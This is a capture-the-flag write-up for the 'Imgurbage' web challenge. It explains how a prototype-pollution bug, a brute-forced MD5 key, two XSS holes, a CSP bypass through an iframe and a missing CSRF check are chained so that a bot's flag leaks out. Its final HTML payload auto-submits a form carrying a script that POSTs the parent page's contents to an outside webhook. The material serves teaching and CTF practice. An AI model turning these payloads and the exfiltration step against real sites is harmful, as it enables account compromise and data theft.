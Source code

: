 # Imgurbage (web, 4 solves)

```
Imagine Imgur, but aim MUCH LOWER, and you got Imgurbage :D
```

## Analysis
The app greets us with a basic login/register form. We have 4 form fields:
![image](https://cdn.discordapp.com/attachments/998278361132576868/1001418125633409066/unknown.png)<br>
After creating an account we can see the main image list
![image](https://cdn.discordapp.com/attachments/998278361132576868/1001418148072923146/unknown.png)

...and three buttons: to add an image, to view other user's images (providing their username and password), and...<br>
![image](https://cdn.discordapp.com/attachments/998278361132576868/1001418160257368074/unknown.png)

### POST /register (main.js)
While inspecting the file we came across this suspicious if statement in the register function:
```js
if(md5(nickname) == "1f4e0a21bb6eef87c17ca2abdfc28369") {
		return res.view("error", {message: "I know what'you're doing. So you better think again >:D"});
}
```
A quick lookup at [MD5 hash database](https://md5decrypt.net/en/) shows that the blacklisted nickname is `__proto__`, so the main idea became prototype pollution. Now we need to find out how can we exploit this.
### addFriend.js
This script is a bot, which takes our username and password, and:
* Opens new headless chrome in incognito mode
* Creates a new account with a random username and password
* Adds a post containing a flag to the new account
* goes to /combine using our credentials
* waits for 7.5s before exiting and closing the tab

If we could only smuggle an XSS there... :)
### combine.ejs
This view, given two accounts, combines their image lists into one page. Three things came to our eyes:
* A CSP is enabled, using random nonce
* A `decade` variable is created is created suspiciously. Why?
```js
let decade = window.decade ?? user.decade;
```
* Our dream XSS is here!
```js
document.getElementById("decade").innerHTML += decade;
```

By overwriting the window.decade variable using prototype pollution, we could smuggle the HTML to this page, which addFriend would display. Sounds great!
But not so fast. We have two issues now:
* We have to find a way to execute prototype pollution
* We have to bypass the CSP.

Let's go back to our nickname, and see where and how it's used.
### addFriend() (user.js)
```js
addFriend(friend) {
		if(friend instanceof User && md5(friend.nickname) != "1f4e0a21bb6eef87c17ca2abdfc28369") {
			for(let img in friend.images[friend.nickname]) {
				if(!(friend.nickname.trim() in this.images)) this.images[friend.nickname.trim()] = {};
        ...
```
That's what we needed! When the bot adds our user, the MD5 of the nickname (`__proto__`) is checked once again, but then the nickname is trimmed! Consequently, using a single space will bypass the check, and let our nickname be the starting point for the prototype pollution.
Now we need to find a way to use it. Let's examine the feature of adding images.
### /new (main.js)
```js
users[req.user.username]["images"][req.user.nickname][md5(url).slice(0,6)] = [
			url,
			description,
];
```
Bingo! Our `__proto__ ` nickname can be used there - ideally, we want this line to become `users[req.user.username]["images"]["__proto__"]["decade"]`. This way, every object would have the decade property - thus window.decade would be set to an array of `[url, description]`, which we control! (Note that in JavaScript, arrays can be automatically casted to strings, so that's not a problem)

### MD5 bruteforce
Since `decade` word has exactly 6 letters and is made only from letters valid in MD5 hash, it's possible to create a hash that starts with `decade`.
A bit of googling led us to this script, which gave us this value: `3888454`.
```py
import hashlib

target = 'decade'
candidate = 0
while True:
    plaintext = str(candidate)
    hash = hashlib.md5(plaintext.encode('ascii')).hexdigest()
    if hash[:6] == target:
        print('plaintext:"' + plaintext + '", md5:' + hash)
        break
    candidate = candidate + 1
```
Now, adding an image with URL `3888454` and description with HTML code leads to XSS in /combine!
We still have one problem though: CSP.
### More XSS!
Now the tricky part begins. Our CSP string is `script-src 'self' 'nonce-<%- nonce %>'`, which means that we cannot directly execute the script in our XSS.
We need to find something else. Revisiting main.js, we discover another XSS vulnerability in the POST /register route:
```js
if(username in users) {
	return res.view("error", {message: "User " + username + " already exists!"});
}
```
Trying to register with already registered username will cause an XSS here, and because the error page is not protected with CSP - our payload (username) will be injected into the page as raw HTML.

### Iframe trick
Using an iframe pointing to our malicious website in the decade XSS will allow us to execute any script there, but there is one catch - we can access the parent window only if it's on the same domain as the iframe (because we want to access innerHTML of window.parent, which has the flag). We can use a trick - make the bot go to the /register page (which is on the same domain!) that has XSS vulnerability and no CSP! To achieve this, we must create an auto-submitting form with method="POST". This is only possible because the route doesn't have any Cross Site Request Forgery protection.

The idea was now to:
* Create an account with the username being our final XSS (extracting innerHTML from the iframe's parent window)
* Inject a malicious iframe to the decade XSS
* The iframe will serve a form pointing to /register with POST method
* The username input will have the value of our final XSS
* The form will automatically submit

### Preparing the iframe page
We need a simple server application to serve the malicious iframe. We can make this quickly using express.js and ngrok tunnel. Also, any service logging the requests is needed, for example [webhook.site](https://webhook.site).<br>


#### index.html
```html
<!DOCTYPE html>
<html>
    <body>
        <form method="post" action="http://localhost:8080/register">
            <input name="username" value="<script>fetch('[your-webhook-site]', {method:'post', body: window.parent.document.body.innerHTML});</script>">
            <input name="password" value="">
            <input name="nickname" value="">
            <input name="decade" value="">
        </form>
    </body>
    <script>
        setTimeout(() => {
            document.querySelector('form').submit();
        }, 500);
    </script>
</html>
```
#### index.js
```js
const express = require('express')
const app = express()

app.use((req, res, next) => {
    console.log('req');
    next();
});

app.get('/', (req, res) => {
    res.sendFile(__dirname+'/index.html');
});
app.listen(8080);
```



## Final solution
* Create first account with the username of our final XSS (to trigger an "Username is already registered" error later)
* Create second account with `__proto__ `&nbsp;nickname (don't miss the space!)
* Add the image with URL: `3888454` and description: `<iframe src="<ngrok/exploit url>">`
* Let the bot visit your (addFriend)
* Go to webhook.site (or your service of choice) and grab the flag!
